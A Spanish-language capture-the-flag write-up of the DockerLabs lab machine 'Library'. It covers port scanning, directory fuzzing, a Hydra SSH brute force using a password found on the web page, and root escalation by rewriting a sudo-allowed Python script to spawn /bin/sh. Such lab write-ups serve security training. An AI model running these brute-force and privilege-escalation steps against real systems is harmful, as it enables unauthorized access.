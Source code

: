 
---

# 🧠 Informe de Pentesting – Máquina *Library* (DockerLabs)

* **Dificultad**: Fácil
* **IP de la máquina**: `172.17.0.3`
* **Objetivo**: Obtener acceso como usuario, escalar privilegios y conseguir acceso root
* **Herramientas utilizadas**: `nmap`, `gobuster`, `hydra`, `python`, `sudo`

---

## 🛠️ Preparación del entorno

Se descargó la máquina vulnerable desde la plataforma DockerLabs y se desplegó utilizando los siguientes comandos:

```bash
unzip library.zip
sudo bash auto_deploy.sh library.tar
```


![Despliegue de la máquina](Imágenes/2025-05-14_08-28.png)

--------

![Ping a la máquina vulnerable](Imágenes/Capturas.png)

---

## 📡 Comprobación de conectividad

Para verificar que la máquina está activa en la red, hicimos un ping:

```bash
ping -c1 172.17.0.3
```

![Escaneo de puertos](Imágenes/Capturas_1.png)


---

## 🔍 Escaneo de puertos con Nmap

### 1. Enumeración de todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Esto reveló dos puertos abiertos:

* **22** (SSH)
* **80** (HTTP)


![Escaneo de puertos](Imágenes/Capturas_2.png)

---

### 2. Detección de servicios y versiones:

```bash
nmap -sC -sV -p80,22 172.17.0.3 -oN target.txt
```


![Servicios detectados](Imágenes/Capturas_3.png)

---

## 🌐 Exploración del servicio web (HTTP)

Al visitar `http://172.17.0.3:80`, encontramos la página por defecto de **Apache2**, sin contenido personalizado.


![Página por defecto de Apache](Imágenes/Capturas_4.png)

---

## 🚪 Fuzzing de directorios con Gobuster

Comenzamos a buscar rutas ocultas usando la siguiente herramienta:

```bash
gobuster dir -u http://172.17.0.3/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron tres directorios interesantes.


![Directorios descubiertos](Imágenes/Capturas_5.png)

---

## 🔑 Descubrimiento de posibles credenciales

En el directorio `index.php` encontramos una cadena alfanumérica:

```
JIFGHDS87GYDFIGD
```


![Cadena sospechosa encontrada](Imágenes/Capturas_6.png)

---

## 📁 Fuzzing profundo en subdirectorios

### Directorio `/javascript`

```bash
gobuster dir -u http://172.17.0.3/javascript \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```



---

### Directorio `/javascript/jquery`

```bash
gobuster dir -u http://172.17.0.3/javascript/jquery \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```


![Fuzzing jquery](Imágenes/Capturas_7.png)

---
![Resultados adicionales](Imágenes/Capturas_8.png)

---

## 🔐 Ataque de fuerza bruta con Hydra (SSH)

Dado que teníamos un posible password (`JIFGHDS87GYDFIGD`), intentamos un ataque de fuerza bruta solo sobre el nombre de usuario, usando Hydra:

```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
  -p JIFGHDS87GYDFIGD ssh://172.17.0.3 -t 4
```

🎯 **Resultado exitoso**:

```
[22][ssh] host: 172.17.0.3   login: carlos   password: JIFGHDS87GYDFIGD
```

![Credenciales encontradas](Imágenes/Capturas_9.png)

---

## 🧑‍💻 Acceso al sistema

Nos conectamos vía SSH con las credenciales obtenidas:

```bash
ssh carlos@172.17.0.3
```

---

## 📈 Escalada de privilegios

Una vez dentro del sistema, ejecutamos:

```bash
sudo -l
```

Esto reveló que el usuario `carlos` puede ejecutar el siguiente script con privilegios de superusuario:

```bash
(ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

![Permisos sudo sobre script.py](Imágenes/Capturas_10.png)

---

### 🐍 Explotación del script

El script original parecía hacer una copia de archivos. Lo editamos para obtener una shell con privilegios root:

```python
# script.py modificado
import os
os.system("/bin/sh")
```

Luego lo ejecutamos con sudo:

```bash
sudo /usr/bin/python3 /opt/script.py
```

Y así obtuvimos una shell como **root**. 🎉

![Shell como root](Imágenes/Capturas_11.png)

---

## ✅ Conclusión

* Se logró acceder a la máquina usando credenciales descubiertas mediante análisis web y fuerza bruta.
* Se identificó un vector claro de escalada de privilegios gracias a un script ejecutable con permisos sudo.
* Este ejercicio destaca la importancia de:

  * No dejar archivos sensibles o contraseñas visibles en páginas web.
  * Limitar los permisos sudo a scripts controlados.
  * Restringir los binarios interpretables como `python`.
